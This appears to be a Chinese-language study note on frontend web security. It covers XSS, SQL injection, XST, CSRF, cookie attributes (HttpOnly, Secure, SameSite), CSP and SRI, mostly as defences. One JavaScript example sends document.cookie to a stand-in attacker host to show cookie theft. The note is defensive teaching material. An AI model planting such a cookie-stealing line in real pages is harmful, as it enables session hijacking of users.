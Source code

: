 # 前端安全性

腾讯大牛亲授漏洞防御(4-2 看完)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种(只适合反射性 css)

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了
对<>单引号和双引号进行转义;对空格进行转义

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。
content-security-policy
CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。

```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御

Cross Site Request Forgy(跨站请求伪造)
CSRF 攻击的危害

1. 利用用户登录态
2. 用户不知情
3. 盗取用户资金转账消费

- 令牌同步模式(tokie)
  原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查 Referer 字段
  因其完全依赖浏览器发送正确的 Referer 字段。虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
- 添加校验 token
  由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验 token 的值为空或者错误，拒绝这个可疑请求。

## HTTP 头注入

## Cookie 安全

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly 属性可防止通过 javascript 访问 cookie 值
SameSite 属性 允许服务器要求某个 cookie 在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)
Cookie 的 SameSite 属性用来限制第三方 Cookie，从而减少安全风险

1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送 cookies,不区分大小写
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）; 这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
3. SameSite=Lax:但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```

## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

1. 首先需要服务器开启内容安全策略即:Content-Security-Policy: require-sri-for script;
2. 加入 integrity 值

```js
<script
  type="text/javascript"
  src="app.bundle.js"
  integrity="sha256-WcONURDxHuPpCyTfyxv6ULC5IQS8W/TvkOfiluU2Y1w= sha512-XZBIDDYvednMCvIE+VxLhoh3GZ550KQEUuUG8EA/HNUKVOa9sl2YpyeIGVmi6NVu2VAAT+bReuzUszzugYNxKQ=="
  crossorigin="anonymous"
></script>;
crossorigin: "" | anonymous | (use-credentials) 请求头都会带上Origin 属性
// 使用use-credentials,这个就同时会在跨域请求中带上 cookie 和其他的一些认证信息. 需要服务端response Header 返回：Access-Control-Allow-Credentials
```

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。
